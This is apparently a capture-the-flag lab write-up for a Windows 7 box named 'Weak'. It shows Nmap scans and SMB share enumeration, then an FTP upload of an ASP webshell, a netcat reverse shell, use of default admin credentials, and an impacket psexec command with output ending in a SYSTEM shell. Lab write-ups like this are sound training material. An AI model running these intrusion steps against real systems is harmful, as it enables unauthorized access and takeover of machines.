 ```Cyber Security Labs: WEAL : 172.31.1.11```


Nmap scans
```
PORT      STATE SERVICE            VERSION                                                                                                                                  
21/tcp    open  ftp                Microsoft ftpd                                                                                                                           
| ftp-syst:                                                                                                                                                                 
|_  SYST: Windows_NT                                                                                                                                                        
80/tcp    open  http               Microsoft IIS httpd 7.5                                                                                                                  
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/7.5                                                                                                                                     
|_http-title: IIS7                                                                                                                                                          
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                                    
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn                                                                                                            
445/tcp   open  microsoft-ds       Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                                               
554/tcp   open  rtsp?                                                                                                                                                       
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)                                                                                                            
2869/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                  
3389/tcp  open  ssl/ms-wbt-server?                                                                                                                                          
|_ssl-date: 2020-05-19T08:47:52+00:00; 0s from scanner time.                                                                                                                
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                  
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                 
|_http-title: Service Unavailable
10243/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49162/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: WEAK; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h45m00s, deviation: 3h30m01s, median: -1s
|_nbstat: NetBIOS name: WEAK, NetBIOS user: <unknown>, NetBIOS MAC: 02:c8:1e:c0:ba:c0 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1 
|   Computer name: Weak
|   NetBIOS computer name: WEAK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-19T01:46:40-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-19T08:46:41
|_  start_date: 2020-05-19T08:12:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 257.66 seconds

```

OS detection

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-19 05:11 EDT
Nmap scan report for 172.31.1.11
Host is up (0.16s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:                       
| smb-os-discovery:                        
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1 
|   Computer name: Weak
|   NetBIOS computer name: WEAK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-19T02:11:15-07:00

```

Share enum

```
nmap --script smb-enum-shares -p139,445 -T4 -Pn 172.31.1.11
Host script results:                       
| smb-enum-shares:                         
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\172.31.1.11\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\172.31.1.11\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\172.31.1.11\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\172.31.1.11\USERS: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED                                                                                                      
|_    Anonymous access: <none>                                                        

Nmap done: 1 IP address (1 host up) scanned in 174.14 seconds
```

Had this weird FTP issue where I was shown the following error.

```
ftp> put cmdasp.asp                                                                                                                                                      
local: cmdasp.asp remote: cmdasp.asp                                                                                                                                        
501 Server cannot accept argument.                                                                                                                                          
ftp: bind: Address already in use
```
To avoid this we had to use the ftp with -p (passively)

Now, I used the ```put``` command into the ftp to add the asp webshell.

Uploaded nc.exe using smb and then executed it to get a reverse shell back.

- Box was vulnerable to Juicy Potato. Unintented way.
- Box had default creds for Admin user in a text folder in C:\Development in README.txt

The password was Password but the admin user was web admin in this case. To log in I tried winexe didnot work.

I downloaded the impacket from github and used the psexec.py from the examples folder inside it.

```zsh
python psexec.py 'web admin'@172.31.1.11
```    
```zsh
Impacket v0.9.22.dev1+20200518.92028.525fa3d0 - Copyright 2020 SecureAuth Corporation                                                  
                                                                                                                                       
Password:                                                                                                                              
[*] Requesting shares on 172.31.1.11.....                                                                                              
[-] share 'ADMIN$' is not writable.                                                                                                    
[-] share 'C$' is not writable.                                                                                                        
[*] Found writable share Development                                                                                                   
[*] Uploading file SEuWiCHt.exe                                                                                                        
[*] Opening SVCManager on 172.31.1.11.....                                                                                             
[*] Creating service Xghz on 172.31.1.11.....                                                                                          
[*] Starting service Xghz.....                                                                                                         
[!] Press help for extra shell commands                                                                                                
Microsoft Windows [Version 6.1.7601]                                                                                                   
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                        
                                                                                                                                       
C:\Windows\system32>whoami                                         
nt authority\system
```